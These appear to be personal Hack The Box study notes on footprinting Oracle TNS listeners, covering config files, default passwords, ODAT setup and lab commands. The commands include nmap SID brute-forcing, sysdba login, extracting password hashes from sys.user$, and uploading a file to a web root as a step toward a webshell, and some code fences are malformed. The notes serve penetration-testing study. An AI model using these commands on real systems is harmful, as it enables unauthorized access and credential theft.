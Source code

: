 ```yaml
---
Title: HTB\footprinting\OracleTNS
tags:
  - os/windows
  - os/linux
  - os/network- cybersec
source: HTB\footprinting\OracleTNS
---
```


# HTB\footprinting\OracleTNS

> Źródło: `HTB\footprinting\OracleTNS`

Oracle Transparent Network Substrate server is a communication protocol that facilitates communication between Oracle databases and applications over networks.

TCP 1521 - by default

Default config
files: tnsnames.ora, listener.ora
typically located in $ORACLE_HOME/network/admin dircetory

Example: Oracle 9 has a default password "CHANGE_ON_INSTALL"
whereas oracle 10 has no default password set
Oracle DBSNMP also uses a default password 'dbsnmp'
Many organizations still use 'finger' service together with oracle, which can put the service at risk, and make it vulnerable

Each database or service has a unique entry in tnsnames.ora file.
The entry consists of a name for the service, the network location of the service and the database or service name that clients should use when connecting.

Example of a simple entry:
ORCL =
  (DESCRIPTION =
    (ADDRESS_LIST =
      (ADDRESS = (PROTOCOL = TCP)(HOST = 10.129.11.102)(PORT = 1521))
    )
    (CONNECT_DATA =
      (SERVER = DEDICATED)
      (SERVICE_NAME = orcl)
    )
  )

The entries can have more informations such as authentication details, connection pooling settings, and load balancing config.

On the other hand the listener.ora file is a server-side config file
Example of such entry:
SID_LIST_LISTENER =
  (SID_LIST =
    (SID_DESC =
      (SID_NAME = PDB1)
      (ORACLE_HOME = C:\oracle\product\19.0.0\dbhome_1)
      (GLOBAL_DBNAME = PDB1)
      (SID_DIRECTORY_LIST =
        (SID_DIRECTORY =
          (DIRECTORY_TYPE = TNS_ADMIN)
          (DIRECTORY = C:\oracle\product\19.0.0\dbhome_1\network\admin)
        )
      )
    )
  )

LISTENER =
  (DESCRIPTION_LIST =
    (DESCRIPTION =
      (ADDRESS = (PROTOCOL = TCP)(HOST = orcl.inlanefreight.htb)(PORT = 1521))
      (ADDRESS = (PROTOCOL = IPC)(KEY = EXTPROC1521))
    )
  )

ADR_BASE_LISTENER = C:\oracle

In short, the client-side Oracle Net Services software uses the tnsnames.ora file to resolve service names to network addresses, while the listener process uses the listener.ora file to determine the services it should listen to and the behavior of the listener.

Oracle databases can be protected by a PlsqlExclusionList
it needs to be placed in $ORACLE_HOME/sqldeveloper and it contains the names of PL/SQL packages or types that should be excluded from execution.

Settings from config files:
DESCRIPTION	- A descriptor that provides a name for the database and its connection type.
ADDRESS	- The network address of the database, which includes the hostname and port number.
PROTOCOL	- The network protocol used for communication with the server
PORT	- The port number used for communication with the server
CONNECT_DATA	- Specifies the attributes of the connection, such as the service name or SID, protocol, and database instance identifier.
INSTANCE_NAME	- The name of the database instance the client wants to connect.
SERVICE_NAME	- The name of the service that the client wants to connect to.
SERVER	- The type of server used for the database connection, such as dedicated or shared.
USER	- The username used to authenticate with the database server.
PASSWORD	- The password used to authenticate with the database server.
SECURITY	- The type of security for the connection.
VALIDATE_CERT	- Whether to validate the certificate using SSL/TLS.
SSL_VERSION	- The version of SSL/TLS to use for the connection.
CONNECT_TIMEOUT	- The time limit in seconds for the client to establish a connection to the database.
RECEIVE_TIMEOUT	- The time limit in seconds for the client to receive a response from the database.
SEND_TIMEOUT	- The time limit in seconds for the client to send a request to the database.
SQLNET.EXPIRE_TIME	- The time limit in seconds for the client to detect a connection has failed.
TRACE_LEVEL	- The level of tracing for the database connection.
TRACE_DIRECTORY	- The directory where the trace files are stored.
TRACE_FILE_NAME	- The name of the trace file.
LOG_FILE	- The file where the log information is stored.

Oracle-tools-setup.sh
#!/bin/bash

```bash
sudo apt-get install libaio1 python3-dev alien -y
```bash
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
```bash
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
```

unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
```bash
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
```

unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
```bash
pip3 install cx_Oracle
```

```bash
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
```bash
```bash
pip3 install pycryptodome
```

Its in case we need some packages and tools to enumarate and interact with TNS listener

Then we can test if the installation was successful by using
```bash
./odat.py -h
```text
ODAT - oracle database attacking tool is an open source pentesting tool written in python and designed to enumarate and exploit vuln, in oracle databases.

SID - system identfier is a unique name that identifies a particulalr database instance.
When a client is connecting to a database he needs to specify the SID, if the SID is not specified, the default one specified in the tnsnames.ora file is used.

To enumarate or guess SIDS we can use tools like nmap, hydra, odat, and others.

NMAP - SID bruteforcing
```bash
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```text
ODAT - it can enumarate oracle database service and gain a lot of information, thus it has many options, in this example 'all' is used
```bash
./odat.py all -s 10.129.204.235
```text
SQLPLUS - connecting to the database
sqlplus <login>/<password>@10.129.204.235/<database SID>

if
"sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory"
encountered
execute this:
```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```sql
SQL plus commands: https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985

Sometimes the user we log in as, does not have enough priviliges to look at some specific interesting stuff.
thus sometimes, if misconfigured, the admin of the database called "sysdba", might have given some permissions to the user, or is used by the admin himself, than we can try:
sqlplus <login>/<password>@10.129.204.235/<database SID> as sysdba

Oracle RDBMS - extract password hashes
select name, password from sys.user$;
Checking priviliges:
select * from user_role_privs;
Checking available tables:
select table_name from all_tables;

We ight have an option to upload a webshell, but we need to know a path of the webserver running on the database.
some default paths are:
Linux	- /var/www/html
Windows	- C:\inetpub\wwwroot

First try with files that are not known or wont be detected by antivirus, like a default txt file

Example:
echo "Oracle File Upload Test" > testing.txt
```bash
./odat.py utlfile -s 10.129.204.235 -d <db SID> -U <login> -P <passwd> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

testing if it worked:
```bash
curl -X GET http://10.129.204.235/testing.txt
```

**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]] [[OS-Network]]
